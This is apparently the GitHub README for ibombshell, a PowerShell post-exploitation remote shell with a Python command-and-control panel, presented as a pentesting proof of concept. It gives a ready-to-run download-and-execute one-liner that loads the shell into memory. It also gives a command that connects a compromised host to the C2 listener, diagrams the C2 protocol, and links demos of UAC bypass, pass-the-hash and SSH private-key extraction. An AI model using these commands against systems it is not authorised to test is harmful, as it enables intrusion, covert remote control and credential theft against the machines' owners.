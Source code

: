 ![Supported Python versions](https://img.shields.io/badge/python-3.6-blue.svg?style=flat-square)
![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

# **ibombshell - Dynamic Remote Shell**

```
      ,--.!,    _ ____                  __   _____ __         ____  
   __/   -*-   (_) __ )____  ____ ___  / /_ / ___// /_  ___  / / /  
 ,d08b.  '|`  / / __  / __ \/ __ `__ \/ __ \\__ \/ __ \/ _ \/ / /  
 0088MM      / / /_/ / /_/ / / / / / / /_/ /__/ / / / /  __/ / /  
 `9MMP'     /_/_____/\____/_/ /_/ /_/_.___/____/_/ /_/\___/_/_/  

 [+] Starting the console...
 [*] Console ready!
```

**ibombshell** is a tool written in Powershell that allows you to have a prompt at any time with post-exploitation functionalities (and in some cases exploitation). It is a shell that is downloaded directly to memory providing access to a large number of pentesting features. These functionalities can be downloaded directly to memory, in the form of a Powershell function. This form of execution is known as *everywhere*.

In addition, *ibombshell* provides a second execution mode called *Silently*, so the pentester can execute an instance of ibombshell (called *warrior*). The compromised computer will be connected to a C2 panel through HTTP. Therefore, it will be possible to control the warrior and be able to load functions in memory that help the pentester. This is happening whithin the post-exploitation phase.

# Prerequisities

To run *ibombshell everywhere* it is mandatory to have PowerShell 3.0 or higher. For operating systems other than Windows you can read more about this in the [PowerShell GitHub](https://github.com/PowerShell/PowerShell) - *PowerShell for every system!*.

To run the *ibombshell silently mode* you need python 3.6 and some python libraries. You can install this with:

```[python]
cd ibombshell\ c2/
pip install -r requirements.txt
```

**Note**: ibombshell C2 works in **python 3.X**. Make sure you run a pip relative to this version.

# Usage

ibombshell has two execution modes:

## ibombshell everywhere

To load ibombshell simply run on PowerShell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/ElevenPaths/ibombshell/master/console’)
```

Now you can run the downloaded ibombshell console running:

```[powershell]
console
```

## ibombshell silently mode

This version allows you to run the ibombshell console and remotely control it from the C2 panel created in python. To run this version, first you must launch the console process in powershell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/ElevenPaths/ibombshell/master/console’)
```

On ibombshell C2 path, prepare the C2:

```[python]
python3 ibombshell.py
```

And create the listener where the warriors will connected:

```[ibombshell]
iBombShell> load modules/listener.py
[+] Loading module...
[+] Module loaded!
iBombShell[modules/listener.py]> run
```

The default listener port is 8080. Finally you can launch the console in silently mode on the host to get remote control:

```[powershell]
console -Silently -uriConsole http://[ip or domain]:[port]
```

# ibombshell C2 scheme

The basic operation of the ibombshell control panel follows the following scheme:

```[ascii]
        ibombshell                 C2
            |                      |
            |    newibombshell     |
            +--------------------->| --+ register
            |                      |<--+ from IP
            |    get functions     |
            |   and instructions   |
            +--------------------->|
            |                      |
            |    send functions    |
            |   and instructions   |
execute +-- |<---------------------+
        +-->|                      |
            |       results        |
            +--------------------->|
            |                      |
```

# Example videos

Some example videos...

### *iBombShell: PoC Warrior + Bypass UAC + Pass the hash*

[![iBombShell: PoC Warrior + Bypass UAC + Pass the hash](https://img.youtube.com/vi/v4c8MsOPTyA/0.jpg)](http://www.youtube.com/watch?v=v4c8MsOPTyA)

### *iBombShell: macOS*

[![iBombShell: PoC de uso desde macOS](https://img.youtube.com/vi/DQlWGPS1CB4/0.jpg)](http://www.youtube.com/watch?v=DQlWGPS1CB4)

### *ibombshell: Extracting Private SSH Keys on Windows 10*

[![ibombshell: Módulo para extracción de claves privadas SSH en Windows 10](https://img.youtube.com/vi/v7iXEg9cTNY/0.jpg)](http://www.youtube.com/watch?v=v7iXEg9cTNY)

### *iBombShell: PoC savefunctions*

[![iBombShell: PoC savefunctions](https://img.youtube.com/vi/7UP09LdRJy0/0.jpg)](http://www.youtube.com/watch?v=7UP09LdRJy0)

# License

This project is licensed under the GNU General Public License - see the LICENSE file for details

# Contact

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

This software doesn't have a QA Process. This software is a Proof of Concept.

If you have any problems, you can contact:

<pablo@11paths.com> - *Ideas Locas CDO - Telefónica*

<alvaro.nunezromero@11paths.com> - *Laboratorio Innovación - ElevenPaths*

For more information please visit [https://www.elevenpaths.com](https://www.elevenpaths.com).
